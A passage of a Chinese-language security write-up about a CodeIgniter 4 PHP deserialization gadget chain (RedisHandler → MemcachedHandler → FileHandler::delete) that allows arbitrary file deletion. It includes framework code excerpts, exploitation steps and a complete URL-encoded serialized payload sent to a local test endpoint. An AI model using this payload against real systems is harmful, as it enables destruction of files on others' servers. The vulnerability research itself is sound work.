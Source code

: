 ```	public function close(): bool
			if (! $this->memcached->quit())
			{
				return false;
			}

			$this->memcached = null;

			return true;
		}

		return false;
	}
```
第三个是/system/Cache/Handlers/FileHandler.php类中的delete方法，这里面直接进行了unlink操作，且参数$key来源于上一个类中的$this->lockKey。
```	public function delete(string $key)
	{
		$key = $this->prefix . $key;

		return is_file($this->path . $key) && unlink($this->path . $key);
	}
```
这就是一个完整的任意文件删除的反序列化利用链了。下面来利用这个触发点。
1）增加一个控制器的入口函数，里面包含了反序列化的操作。
![blockchain](https://github.com/pang0lin/auto-unsearalize/blob/main/imgs/CI_1.png "CodeIgniter unserialize chain")
2）放置E:/test/test/111.txt文件，等待删除。这里也可以用相对路径删除CI自己的文件。
![blockchain](https://github.com/pang0lin/auto-unsearalize/blob/main/imgs/CI_2.png "CodeIgniter unserialize chain")
3）运行上面的POC，得到反序列化数据。传递参数。
```
http://localhost/codeigniter4/public/index.php/home/test

POST：a=O%3A39%3A%22CodeIgniter%5CCache%5CHandlers%5CRedisHandler%22%3A1%3A%7Bs%3A5%3A%22redis%22%3BO%3A45%3A%22CodeIgniter%5CSession%5CHandlers%5CMemcachedHandler%22%3A2%3A%7Bs%3A9%3A%22memcached%22%3BO%3A38%3A%22CodeIgniter%5CCache%5CHandlers%5CFileHandler%22%3A2%3A%7Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A13%3A%22E%3A%2Ftest%2Ftest%2F%22%3B%7Ds%3A7%3A%22lockKey%22%3Bs%3A7%3A%22111.txt%22%3B%7D%7D
```